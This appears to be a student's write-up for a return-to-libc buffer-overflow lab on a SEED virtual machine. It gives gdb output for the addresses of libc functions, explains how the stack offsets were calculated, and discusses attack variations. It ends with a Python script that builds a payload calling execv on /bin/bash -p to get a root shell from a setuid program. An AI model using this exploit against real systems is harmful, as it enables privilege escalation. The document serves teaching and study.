




# Lab 12

SID: 12110644

Name: Sicheng Zhou

## Task 1: Finding out the Addresses of libc Functions

```bash
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e12420 <system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} 0xf7e04f80 <exit>
```

## Task 2: Putting the shell string in the memory

```bash
[12/17/24]seed@VM:~/lab/Labsetup$ make prtenv
gcc -m32 -DBUF_SIZE=12 -fno-stack-protector -z noexecstack -o prtenv prtenv.c
sudo chown root prtenv && sudo chmod 4755 prtenv
[12/17/24]seed@VM:~/lab/Labsetup$ ./prtenv 
ffffd3a5
```

## Task 3: Launching the Attack

How to set X, Y, and Z:

After the buffer overflow, the return address changes to the address of the `system()` function. As soon as the program jumps to the `system()` function, its function prologue is executed, causing esp to be moved down by 4 bytes and ebp to be set to the current value of esp. So we can simply place the parameter (the address of the string "/bin/sh") 8 bytes above the current ebp. 

ebp + 4 is the return address of the `system()` function, so we put the address of the `exit()` function in there, so that when the `system()` function returns, it will jump to the `exit()` function, ending the program perfectly.


```bash
gdb-peda$ p $ebp
$1 = (void *) 0xffffcd08
gdb-peda$ p &buffer
$2 = (char (*)[12]) 0xffffccf0
gdb-peda$ p/d 0xffffcd08 - 0xffffccf0
$3 = 24
```

So X = 36, Y = 28, Z = 32.



**Attack variation 1: Is the exit() function really necessary?**

The attack succeeds, but segementation fault occurrs when exit.

ebp+4 is the return address of the `system()` function. If a random value is put here, when the `system()` function returns, the program is likely to crash. 



**Attack variation 2: change the file name of retlib to a different name.**

The attack will not succeed. 

Once ASLR is turned off, the address of the `MYSHELL` environment variable will be the same in different child processes created by the same process. However, this address depends on the length of the program name. Before the environment variable is pushed into the stack, the first thing pushed into the stack is the program name. Therefore, the length of the program name affects the location of the environment variable in memory. 



## Task 4: Defeat Shell’s countermeasure

1. Set the return address of `bof()` to the address of `execv()`.
2. Set the return address of `execv()` to the address of `exit()`.
3. Place the arguments. The 1st argument is the address of string "/bin/bash". The 2nd is the address of argv[0]. Because `NULL` can not be copied, we directly set this argument to the address of `input`. 



```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 36 # pathname
sh_addr = 0xffffd39c       # The address of "/bin/bash"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

P = 40
argv_addr = 0xffffcd30 + A # the address of argc[0] = input address + A
content[P:P+4] = (argv_addr).to_bytes(4,byteorder='little')

A = 44 # argc[0], the address of "/bin/bash"
content[A:A+4] = (sh_addr).to_bytes(4,byteorder='little')

B = 48 # argc[1]
p_addr = 0xffffd416       # The address of "-p"
content[B:B+4] = (p_addr).to_bytes(4,byteorder='little')

C = 52 # argc[2]
n = 0x00000000       # NULL
content[C:C+4] = (n).to_bytes(4,byteorder='little')

Y = 28
system_addr = 0xf7e994b0   # The address of execv()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 32
exit_addr = 0xf7e04f80     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```

